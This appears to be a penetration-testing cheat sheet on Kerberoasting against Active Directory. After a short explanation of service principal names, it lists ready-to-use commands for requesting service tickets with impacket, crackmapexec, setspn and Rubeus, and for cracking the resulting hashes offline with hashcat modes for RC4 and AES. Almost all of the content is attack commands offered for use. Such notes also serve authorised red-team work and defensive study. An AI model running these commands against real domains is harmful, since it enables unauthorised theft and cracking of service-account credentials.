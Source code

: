 # Kerberoasting
You have a name and a secret (password, hash, ticket, aeskey)? Kerberoasting takes advantage of how service accounts leverage Kerberos authentication with Service Principal Names (SPNs). SPN is an unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. By default, all standard domain users can request a copy of all service accounts STs (with SPN value set) encrypted with their correlating key.

Requirements:
* User with creds

---

## Remote
`impacket-GetUserSPNs -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request`
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --kerberoasting <OUTPUT>`

## Local
Find SPN accounts:
`setspn -T medin -Q */*`

Hashes:
`Rubeus.exe kerberoast /nowrap`
`Rubeus.exe kerberoast /ticket:<TICKETBASE64/FILE> /nowrap`

## Hashcat
RC4:
`hashcat -m 13100 <HASH> <PASSLIST> --potfile-disable`
AES128-CTS-HMAC-SHA1-96:
`hashcat -m 19600 <HASH> <PASSLIST> --potfile-disable`
AES256-CTS-HMAC-SHA1-96:
`hashcat -m 19700 <HASH> <PASSLIST> --potfile-disable`